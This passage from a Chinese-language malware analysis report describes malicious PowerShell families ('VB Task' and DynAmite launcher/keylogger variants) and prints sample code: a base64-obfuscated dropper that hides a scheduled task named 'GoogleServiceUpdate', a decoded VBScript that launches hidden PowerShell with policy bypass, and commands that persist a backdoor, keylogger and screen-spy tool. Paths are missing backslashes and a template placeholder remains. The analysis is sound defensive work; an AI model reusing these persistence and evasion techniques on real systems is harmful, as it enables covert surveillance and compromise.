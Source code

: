 **4.21 VB Task（10个样本，占比0.24%）**

此类PowerShell代码最初来自于某个内嵌PowerShell脚本的PE文件，通过运行VB脚本来创建计划任务。VB脚本一旦执行就会启动另一个PowerShell脚本。



```
$path= "$env:userprofileappdatalocalmicrosoftWindows"
if(-not(Test-Path -Path($path)))
{mkdir $path}
$fileout="$pathL69742.vbs";
$encstrvbs="c2V0IHdzcyA9IENyZWF0ZU9iamVjdCgiV1NjcmlwdC5TaGVsbCIpDQpzdHIgPSAicG93ZXIiICYgInNoIiAmICJlbGwiICYgIi5lIiAmICJ4ZSAtTm9QIC1zdGEgLU5vbkkgLWUiICYgInhlIiAmICJjIGJ5cCIgJiAiYXMiICYgInMgLWZpIiAmICJsZSAiDQpwYXRoID0gIiNkcGF0aCMiDQpzdHIgPSBzdHIgKyBwYXRoICsgIlxtYy5wczEiDQp3c3MuUnVuIHN0ciwgMCANCg0K";
$bytevbs=[System.Convert]::FromBase64String($encstrvbs);
$strvbs=[System.Text.Encoding]::ASCII.GetString($bytevbs);
$strvbs = $strvbs.replace('#dpath#',$path);
set-content $fileout $strvbs;
$tmpfile="$env:TEMPU1848931.TMP";
$pscode_b64  =get-content $tmpfile | out-string;
$pscode_b64=$pscode_b64.trim();
$pscode = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($pscode_b64))
$id = [string](get-random -min 10000 -max 100000)
$pscode = $pscode.replace('#id#',$id);
set-content "$pathmc.ps1" $pscode
$taskstr="schtasks /create /F /sc minute /mo 2 /tn ""GoogleServiceUpdate"" /tr """"$fileout""""   ";
iex 'cmd /c $taskstr';
{{CODE}}
The base64 decoded VBScript –
{{CODE}}
set wss = CreateObject("WScript.Shell")
str = "power" &amp;amp; "sh" &amp;amp; "ell" &amp;amp; ".e" &amp;amp; "xe -NoP -sta -NonI -e" &amp;amp; "xe" &amp;amp; "c byp" &amp;amp; "as" &amp;amp; "s -fi" &amp;amp; "le "
path = "#dpath#"
str = str + path + "mc.ps1"
wss.Run str, 0
```

**4.22 DynAmite Launcher （6个样本，占比0.15%）**

**4.23 DynAmite KL（1个样本，占比0.02%）**

DynAmite是一个“恶意软件生成工具包”，可以根据用户定制功能，创建恶意软件。

DynAmite允许用户组合他们所需要的功能，生成一个PE封装文件，利用PowerShell命令执行所定制的任务。我所收集到的此类代码主要来自于公开工具，其中变量名和变量位置可以有多种不同表现。

“DynAmite Launcher”变种通过计划任务完成本地持久化目的。以下是此类变种的三种不同表现形式，这三种样本可能由DynAmite使用不同的版本和配置生成。



```
schtasks.exe /create /TN "MicrosoftWindowsDynAmiteBackdoor" /XML C:WindowsTemptask.xml
schtasks.exe /create /TN "MicrosoftWindowsDynAmiteKeylogger" /XML C:WindowsTemptask2.xml
SCHTASKS /run /TN "MicrosoftWindowsDynAmiteBackdoor"
SCHTASKS /run /TN "MicrosoftWindowsDynAmiteKeylogger"
Remove-Item "C:WindowsTemp*.xml"
#create backdoor task
schtasks.exe /create /TN "MicrosoftWindowsDynAmiteDynAmite" /XML C:WindowsTempdynatask.xml
#create upload task
schtasks.exe /create /TN "MicrosoftWindowsDynAmiteUploader" /XML C:WindowsTempupltask.xml
#run backdoor task
SCHTASKS /run /TN "MicrosoftWindowsDynAmiteDynAmite"
#create registry entries for keylogger and screenspy
New-ItemProperty -path HKLM:SOFTWAREMicrosoftWindowsCurrentVersionRun -Name Keylogger -PropertyType String -Value "C:Windowsdynakey.exe"
New-ItemProperty -path HKLM:SOFTWAREMicrosoftWindowsCurrentVersionRun -Name ScreenSpy -PropertyType String -Value "C:Windowsdynascr.exe"
#run keylogger and screenspy
```